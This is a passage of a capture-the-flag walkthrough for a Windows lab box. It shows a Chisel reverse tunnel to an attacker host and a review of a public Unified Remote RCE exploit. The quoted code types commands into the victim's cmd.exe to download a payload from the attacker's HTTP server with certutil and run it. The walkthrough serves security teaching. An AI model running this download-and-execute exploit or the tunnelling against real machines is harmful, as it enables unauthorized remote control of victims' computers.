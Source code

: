     
    
    oxdf@hacky$ /opt/chisel/chisel_1.7.6_linux_amd64 server -p 8000 --reverse
    2022/01/28 16:34:12 server: Reverse tunnelling enabled
    2022/01/28 16:34:12 server: Fingerprint 81DUoPbmDjczPL9ZhJsU325vRwcHTwvWav70WALUU0g=
    2022/01/28 16:34:12 server: Listening on http://0.0.0.0:8000
    

Now I’ll connect to that port with the client:

    
    
    PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:9512:127.0.0.1:9512
    2022/01/28 13:36:41 client: Connecting to ws://10.10.14.6:8000
    2022/01/28 13:36:42 client: Connected (Latency 74.2142ms)
    

At the server, it shows the tunnel:

    
    
    2022/01/28 16:36:00 server: session#1: tun: proxy#R:9512=>9512: Listening
    

This is another chance to remind everyone that you must use 127.0.0.1 with
Chisel and Windows. By default, Windows will route `localhost` to `::1`, which
doesn’t work is the service you are forwarding isn’t on IPv6.

#### Exploit Script Review

I’ll download [the exploit](https://www.exploit-db.com/exploits/49587) and
take a look. It’s a legacy Python script. I can get it up to modern Python by
replacing all the `.decode('hex')` with `unhexlify` (which I import from
`binascii`).

The script takes in three arguments:

    
    
    oxdf@hacky$ python3 unified_remote_rce.py 
    Usage: python unified_remote_rce.py <target-ip> <local-http-ip> <payload-name>
    

Looking at the code, the `main` function basically sends a series of commands
/ keystrokes:

    
    
    def main():
    	target.connect((rhost,port))
    	sleep(0.5)
    	print("[+] Connecting to target...")
    	target.sendto(open,(rhost,port)) 	# Initialize Connection to Unified
    	sleep(0.02)
    	target.sendto(open_fin,(rhost,port)) 	# Finish Initializing Connection
    	print("[+] Popping Start Menu")
    	sleep(0.02)
    	SendWin()
    	sleep(0.3)
    	print("[+] Opening CMD")
    	SendString("cmd.exe", rhost)
    	sleep(0.3)
    	SendReturn()
    	sleep(0.3)
    	print("[+] *Super Fast Hacker Typing*")
    	SendString("certutil.exe -f -urlcache http://" + lhost + "/" + payload + " C:\\Windows\\Temp\\" + payload, rhost) # Retrieve HTTP hosted payload
    	sleep(0.3)
    	print("[+] Downloading Payload")
    	SendReturn()
    	sleep(3)
    	SendString("C:\\Windows\\Temp\\" + payload, rhost) # Execute Payload
    	sleep(0.3)
    	SendReturn()